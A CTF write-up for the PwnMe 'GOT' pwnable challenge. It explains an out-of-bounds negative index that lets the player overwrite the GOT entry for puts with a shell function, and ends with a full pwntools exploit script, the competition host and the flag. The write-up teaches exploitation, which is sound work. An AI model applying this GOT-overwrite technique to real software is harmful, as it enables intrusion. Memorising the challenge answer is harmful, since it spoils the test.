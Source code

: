 ```yaml
---
title: PWNMECTF PWNABLE

---
```


# PWNMECTF PWNABLE
### Introduction:
- This is a write-up of GOT challenge by HiuHiu.
## IDA
- Main function:
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int idx; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  idx = 0;
  puts("Hey ! I've never seen Game of Thrones and i think i misspelled a name, can you help me ?");
  puts("Which name is misspelled ?\n1. John\n2. Daenarys\n3. Bran\n4. Arya");
  fwrite("> ", 1uLL, 2uLL, stdout);
  __isoc99_scanf("%d", &idx);
  if ( idx > 4 )                                // OOB-able
  {
    puts("Huuuhhh, i do not know that many people yet...");
    _exit(0);
  }
  puts("Oh really ? What's the correct spelling ?");
  fwrite("> ", 1uLL, 2uLL, stdout);
  read(0, &PNJs[idx], 32uLL);
  puts("Thanks for the help, next time i'll give you a shell, i already prepared it :)");
  return 0;
}
```
> Firstly, we are required to enter the index as the idx of each name listed, including: "John, Daenarys, Bran, Arya".
> Then this input is checked if the its value is greater than 4 for the correction requirement of the names based on the index or an exit. 
- Shell function:
```
void __cdecl shell()
{
  system("/bin/sh");
}
```
> Basically is our target =))

## IDEA
- With the check of the index we could find an OutOfBound bug because the index was check only with the value of 4 (greater) while there is no limit for the lower 0 index. With that in mind, we will use the bug to invest the data of those stage of memory and find the way for exploitation.

## EXPLOIT
- Checksec
> ![{3C0EF49A-B230-437E-840D-4FB96F17AEB4}](https://hackmd.io/_uploads/S1jqwN7okg.png)
> Pay attention on PIE (off) and RELRO (partial) -> function can be called easily and the got table can be overwrited

- GDB
> Have a test with idx = 0:
> ![{ADFE6F67-66BF-4142-A0DE-DEB66A374C4A}](https://hackmd.io/_uploads/B1jZY4Xiyl.png)
> We can see that our idx is read on the stack at 0x7fffffffde24 and then it is moved in the eax and converted to the form of 8 bytes. Then it is shifted to the left 5 bytes and the result is as the result of the multiplication of the idx and 2 power 5 (idx * 2^5), following by the PNJs address added (0x404080). Finally, based on the above result in the rax, we are asked to have the input and it will be stored in the result.
> - We can have the formula: idx * 0x20 = result (where the input will be writen).
> - With that formula, with the idx, the address we write is 0x20 byte in distance and we are able to write at 0x404080 + (idx * 0x20).
> - Let have the investigating at the lower addresses from PNJs + 0:
> ![{05E3AA23-DE66-4540-9A37-FD31289B9DEC}](https://hackmd.io/_uploads/S1_ts47s1l.png)
> - And we got the GOT table here. The idea will be completed with the overwrite of a GOT address satisfying the formula by the Shell function address.
> - We can realize that we can only write at exit and read fuction. Have a look back to IDA to check if it is possible for this overwrite to have its meanning:
> ```
> puts("Oh really ? What's the correct spelling ?");
> fwrite("> ", 1uLL, 2uLL, stdout);
> read(0, &PNJs[idx], 32uLL);
> puts("Thanks for the help, next time i'll give you a shell, i already prepared it :)");
> return 0;
> ```
> - After the read function is called, the only remaining function is puts and puts' address is not reasonable for our formula.
> - So how can we do now??? Just chill here=))) You're all forgot 1 thing is the input for correction have the size of 32 bytes. 
> "But HiuHiu what can we do with that?"
> - Alright, we will have the exit@plt overwited by 8 bytes from our input right? And the size of input is 32. It means we can overwrite the 3 lower functions in the GOT table and see what? puts@plt is just below the exit one.
> **=> So the solutions is our input will includes 16 bytes with 8 first bytes is random and the remaining is the address of Shell function.**
- Script:
> What are you waiting for? Go having the script written like this:
> ```
> sla(b'> ',b'-4')
> payload = b'a'*8 + p64(exe.sym.shell)
> sla(b'?\n> ',payload)
> p.interactive()
> ```
> Just simple like that and have a run:
> ![{717F17A7-9D2D-45AE-A2DC-0B61DA885FDB}](https://hackmd.io/_uploads/Skhs1Bmsye.png)
> We had the local flag and now it's time for the server:
> ![{CCE33E89-197D-486E-8474-2A19418A1DD3}](https://hackmd.io/_uploads/H1U0yrmjkg.png)
> Oh Oh, the server seemed to be closed due to the end of the competition but don't worry i got it noted in my script.

**=> Challenge completed**

## FULLSCRIPT
```
#!/usr/bin/env python3

from pwn import *

exe = ELF('got', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+120
        b*main+243
        c
        ''')
        input()


if args.REMOTE:
    p = remote('got-0f2e3f0dab2a139f.deploy.phreaks.fr',443,ssl = True)
else:
    p = process([exe.path])
GDB()

#using OOB to access to exit got and the formula is: index*0x20 + 0x404080(an address of rw section)
#idx = -4: with the idx so now the address accessed is 0x404080 + (-4*0x20) = 0x404000 is the exit()

sla(b'> ',b'-4')
payload = b'a'*8 + p64(exe.sym.shell)
sla(b'?\n> ',payload)
p.interactive()

#flag: PWNME{G0t_Ov3Rwr1t3_fTW__}
```